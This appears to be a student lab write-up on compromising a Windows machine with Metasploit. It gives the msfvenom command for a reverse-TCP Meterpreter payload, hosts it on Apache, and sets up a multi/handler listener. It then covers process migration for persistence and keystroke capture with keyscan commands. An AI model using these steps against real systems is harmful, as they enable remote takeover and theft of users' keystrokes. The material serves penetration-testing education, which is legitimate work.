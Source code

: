 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
PROGRAM:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/fb3b9d6f-d93d-4d9e-925f-2461acd7e49b)
Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
copy the fun.exe into the apache /var/www/html folder
Start apache server sudo systemctl apache2 start
Check the status of apache2 sudo apache2 status
## output:
![WhatsApp Image 2025-04-10 at 10 29 20_9439a8cb](https://github.com/user-attachments/assets/517e7e4b-7e35-420e-848d-c07266ebfa98)

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## output :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/729dc34c-b5b1-4cc6-8770-22d2331caede)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

![image](https://github.com/user-attachments/assets/d93cac14-3fc3-444b-8159-bc2e0bc66d3a)

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/user-attachments/assets/2cfb6dd1-773b-4b42-9cd5-6cbb204a3145)

Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/0810a377-a529-4f89-896e-af33fad9b043)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
